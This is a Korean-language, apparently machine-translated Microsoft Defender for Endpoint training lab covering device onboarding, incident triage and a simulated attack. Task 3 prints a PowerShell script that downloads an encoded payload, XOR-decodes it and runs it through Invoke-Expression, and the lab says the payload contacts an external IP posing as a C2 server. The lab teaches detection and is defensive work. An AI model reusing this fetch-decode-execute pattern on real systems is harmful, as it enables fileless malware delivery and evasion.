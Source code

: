 ```yaml
---
lab:
  title: 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 2 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 관리자는 몇 가지 디바이스를 온보딩하여 SecOps(Security Operations) 팀 응답 프로시저에 필요한 변경 내용에 대한 인사이트를 제공할 계획입니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 디바이스 온보딩에 성공했는지 확인하고 해당 프로세스 중에 생성된 경고 및 인시던트에 대해 조사합니다.

>**참고:** **[대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 사용하여 이 랩을 원하는 속도로 클릭할 수 있습니다. 대화형 시뮬레이션과 호스트된 랩 간에 약간의 차이가 있을 수 있지만 보여주는 핵심 개념과 아이디어는 동일합니다.

### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. Microsoft Edge 브라우저의 Microsoft Defender XDR 포털에 아직 없는 경우 테넌트에 대한 관리(로 로그인)https://security.microsoft.com)합니다.

1. 왼쪽 메뉴**의 자산 영역에서 디바이스**를** 선택합니다**. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 1시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. 왼쪽 메뉴 모음에서 설정** 선택한 **다음 설정 페이지에서 엔드포인트를** 선택합니다**.

1. 디바이스 관리 섹션에서 온보딩을** 선택하고 **"Windows 10 및 11"*이 운영 체제로 선택되어 있는지 확인*합니다. *이제 "온보딩된 첫 번째 디바이스"* 메시지가 완료됨*으로 표시됩니다*.

1. "2" 섹션 *아래로 스크롤합니다. 검색 테스트 실행"*, 복사 단추를 선택하여 검색 테스트 스크립트를 **복사** 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. 관리istrator: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 **스크립트를 붙여넣고 Enter** 키를 눌러 **실행합니다.

    >**참고:** 스크립트를 성공적으로 실행한 후 몇 분 후에 Microsoft Defender XDR 포털에서 경고가 생성되면 창이 자동으로 닫힙니다.

### 작업 2: 경고 및 인시던트 조사

이 태스크에서는 이전 태스크의 온보딩 검색 테스트 스크립트에서 생성된 경고 및 인시던트에 대해 조사합니다.

1. Microsoft Defender XDR 포털**의 왼쪽 메뉴 모음에서 인시던트 및 경고를** 선택한 다음 경고를 선택합니다****.

1. **경고** 창에서 의심스러운 PowerShell 명령줄*이라는 *경고를 선택하여 세부 정보를 로드합니다.

1. *경고 스토리* 타임라인 검토한 다음 세부 정보* 및 *권장 사항* 탭을 검토*합니다.

    >**참고:** 경고 세부 정보* 탭에서 인시던트 세부 정보* 섹션까지 *아래로 스크롤하고 하나의 엔드포인트* 링크에서 실행 인시던트(Execution Incident)를 선택하여 *인시던트 열기를 *선택할 수 있습니다.

1. Microsoft Defender XDR 포털**의 왼쪽 메뉴 모음에서 인시던트** 및 경고를 선택한 다음, 인시던트 선택 ****

1. 한 엔드포인트*에서 실행 인시던트라는 *새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. 인시던**트 **관리 링크(연필 아이콘 포함)를 선택하면 새 창 블레이드가 나타납니다.

1. 인시던트 태그 아래에 **"시뮬레이션"을** 입력하고 시뮬레이션(새로 만들기)**을 선택하여 **새 태그를 만듭니다.

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다.

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다.

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다.

1. 원하는 경우 메모를 추가하고 저장**을 선택하여 인시던트 업데이트 및 완료를 선택합니다**.

1. 공격 스토리, 경고, 자산, 조사, 증거 및 대응* 및 *요약* 탭의 내용을 *검토합니다. 디바이스 및 사용자가 자산 탭 아래에 *있습니다*. 실제 인시던트에서 *공격 스토리* 탭에는 인시던트 그래프*가 *표시됩니다. **힌트:** 표시 크기 때문에 일부 탭이 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

### 작업 3 공격 시뮬레이션

>**경고:** 이 시뮬레이션된 공격은 연습을 통해 학습하는 훌륭한 소스입니다. 과정 제공 Azure 테넌트 사용 시 이 랩에 제공된 지침에서만 공격을 수행합니다.  이 테넌트에서 *이 교육 과정을 완료한 후* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

이 작업에서는 WIN1 가상 머신에 대한 공격을 시뮬레이션하고 엔드포인트용 Microsoft Defender 공격을 감지하고 완화했는지 확인합니다.

1. WIN1 가상 머신에서 시작** 단추를 마우스 오른쪽 단추로 클릭하고 *** Windows PowerShell(관리)**을 선택합니다**. * 

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다.

1. 다음 시뮬레이션 스크립트를 복사하여 PowerShell 창에 붙여넣고 Enter** 키를 눌러 **실행합니다.

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**참고:** 스크립트를 실행하는 동안 오류가 발생하는 경우 메모장 앱을 열고 스크립트를 빈 파일로 복사할 수 있습니다. 메모장 단어 줄 바꿈*이 켜져 있는지 확인*합니다. PowerShell에서 스크립트의 각 줄을 개별적으로 복사하고 실행합니다.

1. 스크립트는 여러 줄의 출력과 do기본 컨트롤러를 확인하지 못했다는 메시지를 *생성합니다기본*. 몇 초 후에 *메모장* 앱이 열립니다. 시뮬레이션된 공격 코드가 메모장 삽입됩니다. 자동으로 생성된 메모장 인스턴스를 열어 두면 전체 시나리오를 경험할 수 있습니다. 시뮬레이션된 공격 코드는 외부 IP 주소(C2 서버 시뮬레이션)와 통신하려고 시도합니다.

### 작업 4: 시뮬레이션된 공격을 단일 인시던트로 조사

1. Microsoft Defender XDR 포털**의 왼쪽 메뉴 모음에서 인시던트** 및 경고를 선택한 다음, 인시던트 선택 ****

1. 한 엔드포인트*에서 방어 회피 및 검색과 관련된 다단계 인시던트라는 *새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. *공격 스토리* 탭에서 경고** 및 **인시던트 세부 정보** 창을 축소**하여 전체 **인시던트 그래프**를 봅니다.

1. 인시던트 그래프 노드를 **마우스로 가리키고 선택하여 엔터티를 *검토합니다*.**

1. 경고 창(왼쪽)을 **** 다시 확장하고 공격 스토리** *실행* 재생 아이콘을 **선택합니다. 경고별 공격 타임라인 경고를 표시하고 인시던트 그래프*를 *동적으로 채웁니다.

1. 공격 스토리, 경고, 자산, 조사, 증거 및 대응* 및 *요약* 탭의 내용을 *검토합니다. 디바이스 및 사용자가 자산 탭 아래에 *있습니다* . **힌트:** 표시 크기 때문에 일부 탭이 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

1. 증거 **및 응답** 탭에서 IP 주소를** 선택한 **다음, 표시된 *IP 주소를* 선택합니다. 팝업 창에서 IP 주소 세부 정보를 검토하고 아래로 스크롤하여 IP 주소 페이지** 열기 단추를 선택합니다**.

1. 조직 탭에서 *IP 주소* 페이지 *개요, 인시던트 및 경고 및 관찰됨의 내용을 검토* 합니다. 일부 탭에는 IP 주소에 대한 정보가 포함되지 않을 수 있습니다.

## 이 랩을 완료했습니다.
